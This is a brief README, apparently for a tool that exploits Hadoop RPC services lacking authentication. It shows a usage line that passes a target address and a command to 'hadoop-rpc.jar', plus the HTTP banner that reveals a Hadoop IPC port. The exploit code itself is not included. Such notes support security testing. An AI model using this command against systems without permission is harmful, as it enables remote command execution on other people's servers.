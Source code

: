 # hadoop rpc unauthorized
java -jar hadoop-rpc.jar target_ip:port cmd
![image](./image/example.png)  
hadoop rpc banner  
`HTTP/1.1 404 Not Found\r\nContent-type: text/plain\r\n\r\nIt looks like you are making an HTTP request to a Hadoop IPC port. This is not the correct port for the web interface on this daemon.\r\n
`
